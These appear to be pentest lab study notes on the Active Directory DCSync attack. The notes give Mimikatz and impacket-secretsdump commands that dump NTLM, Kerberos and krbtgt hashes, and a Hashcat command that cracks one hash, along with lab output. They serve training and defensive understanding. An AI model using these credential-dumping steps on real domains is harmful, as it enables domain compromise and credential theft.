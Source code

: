 # Domain Controller Synchronization



## Recap

In production environments, domains rely on multiple Domain Controllers to provide redundancy. The Directory Replication Service (RDS) Remote Protocol uses replication to synchronize the servers.

A Domain Controller may request an update to the network on an AD Object using the API

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47" %}



## Exploiting

Luckily, a Domain Controller receiving the request doesn't verify if the request came from an actual Domain Controller! It only verifies the SID! We may be able to issue a rogue update request and have it suceed.



### Invoking MimiKatz

```powershell
PS C:\Users\jeffadmin> cd C:\Tools\

PS C:\Tools> .\mimikatz.exe
...

mimikatz # lsadump::dcsync /user:corp\dave
[DC] 'corp.com' will be the domain
[DC] 'DC1.corp.com' will be the DC server
[DC] 'corp\dave' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : dave

** SAM ACCOUNT **

SAM Username         : dave
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00410200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD DONT_REQUIRE_PREAUTH )
Account expiration   :
Password last change : 9/7/2022 9:54:57 AM
Object Security ID   : S-1-5-21-1987370270-658905905-1781884369-1103
Object Relative ID   : 1103

Credentials:
    Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 0: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 1: a11e808659d5ec5b6c4f43c1e5a0972d
    lm  - 0: 45bc7d437911303a42e764eaf8fda43e
    lm  - 1: fdd7d20efbcaf626bd2ccedd49d9512d
...
```

### Cracking with Hashcat

```shell-session
kali@kali:~$ hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
08d7a47a6f9f66b97b1bae4178747494:Flowers1              
...
```



### Getting NLTM Hash

We can now get the NTLM hash of any user on the domain. We can attempt to crack these hashes and retrieve plaintext

```powershell
mimikatz # lsadump::dcsync /user:corp\Administrator
...
Credentials:
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
...
```



## Attacking on Kali - Impacket-secretdump

```shell-session
kali@kali:~$ impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
[*] Kerberos keys grabbed
dave:aes256-cts-hmac-sha1-96:4d8d35c33875a543e3afa94974d738474a203cd74919173fd2a64570c51b1389
dave:aes128-cts-hmac-sha1-96:f94890e59afc170fd34cfbd7456d122b
dave:des-cbc-md5:1a329b4338bfa215
[*] Cleaning up...
Listing 33 - Using secre
```

krbtgt:502:aad3b435b51404eeaad3b435b51404ee:<mark style="color:red;">1693c6cefafffc7af11ef34d1c788f47</mark>:::

We've successfully obtained the NTLM hash.
